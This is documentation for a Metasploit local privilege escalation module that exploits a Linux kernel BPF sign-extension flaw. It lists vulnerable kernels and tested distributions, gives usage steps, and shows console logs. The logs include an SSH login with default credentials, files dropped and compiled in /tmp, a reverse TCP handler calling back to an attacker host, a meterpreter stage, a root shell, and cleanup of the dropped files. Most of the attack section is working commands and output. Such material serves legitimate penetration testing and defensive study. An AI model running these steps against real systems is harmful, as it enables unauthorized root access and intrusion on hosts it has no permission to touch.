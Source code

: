 ## Vulnerable Application

  Linux kernel prior to 4.14.8 utilizes the Berkeley Packet Filter (BPF)
  which contains a vulnerability where it may improperly perform sign
  extension. This can be utilized to escalate privileges.

  The target system must be compiled with BPF support and must not have
  `kernel.unprivileged_bpf_disabled` set to `1`.

  This module has been tested successfully on:

  * Debian 9.0 kernel 4.9.0-3-amd64;
  * Deepin 15.5 kernel 4.9.0-deepin13-amd64;
  * ElementaryOS 0.4.1 kernel 4.8.0-52-generic;
  * Fedora 25 kernel 4.8.6-300.fc25.x86_64;
  * Fedora 26 kernel 4.11.8-300.fc26.x86_64;
  * Fedora 27 kernel 4.13.9-300.fc27.x86_64;
  * Gentoo 2.2 kernel 4.5.2-aufs-r1;
  * Linux Mint 17.3 kernel 4.4.0-89-generic;
  * Linux Mint 18.0 kernel 4.8.0-58-generic;
  * Linux Mint 18.3 kernel 4.13.0-16-generic;
  * Mageia 6 kernel 4.9.35-desktop-1.mga6;
  * Manjero 16.10 kernel 4.4.28-2-MANJARO;
  * Solus 3 kernel 4.12.7-11.current;
  * Ubuntu 14.04.1 kernel 4.4.0-89-generic;
  * Ubuntu 16.04.2 kernel 4.8.0-45-generic;
  * Ubuntu 16.04.3 kernel 4.10.0-28-generic;
  * Ubuntu 16.04.5 kernel 4.4.0-116-generic;
  * Ubuntu 17.04 kernel 4.10.0-19-generic;
  * ZorinOS 12.1 kernel 4.8.0-39-generic.

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/bpf_sign_extension_priv_esc`
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-116-generic)

#### Initial Access

  ```
  resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
  resource (ubuntu.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (ubuntu.rb)> set username ubuntu
  username => ubuntu
  resource (ubuntu.rb)> set password ubuntu
  password => ubuntu
  resource (ubuntu.rb)> exploit
  [+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
  [*] Command shell session 1 opened (1.1.1.1:36273 -> 2.2.2.2:22) at 2018-03-23 20:42:04 -0400
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system
  [*] Writing files to target
  [*] Writing vQIIRofN to /tmp/vQIIRofN.c
  [*] Max line length is 65537
  [*] Writing 7797 bytes in 1 chunks of 26837 bytes (octal-encoded), using printf
  [*] Writing iuRJiXBf to /tmp/iuRJiXBf
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003869aa00
  [*] uidptr = ffff8800354fb244
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vQIIRofN.c
  [+] Deleted /tmp/vQIIRofN
  [+] Deleted /tmp/iuRJiXBf
  
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  ```

#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, in a scenario where `build-essential` or `gcc` aren't on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [-] gcc is not installed.  Compiling will fail.
  [*] Dropping pre-compiled exploit on system
  [*] Writing vsQTwocG to /tmp/vsQTwocG
  [*] Max line length is 65537
  [*] Writing 14040 bytes in 1 chunks of 36802 bytes (octal-encoded), using printf
  [*] Writing JDQDHtEG to /tmp/JDQDHtEG
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003a8a3800
  [*] uidptr = ffff88003d276304
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vsQTwocG
  [+] Deleted /tmp/JDQDHtEG
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```

### Debian 9.0 (x86_64)

  ```
  msf > use exploit/linux/local/bpf_sign_extension_priv_esc 
  msf exploit(linux/local/bpf_sign_extension_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/bpf_sign_extension_priv_esc) > set compile False
  compile => False
  msf exploit(linux/local/bpf_sign_extension_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.JBJBxoEO' (34784 bytes) ...
  [*] Writing '/tmp/.1pZhL1gc' (207 bytes) ...
  [*] Launching exploit ...
  [*] Sending stage (861480 bytes) to 172.16.191.236
  [*] Cleaning up /tmp/.1pZhL1gc and /tmp/.JBJBxoEO ...

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : debian-9-0-x64.local
  OS           : Debian 9.4 (Linux 4.9.0-3-amd64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

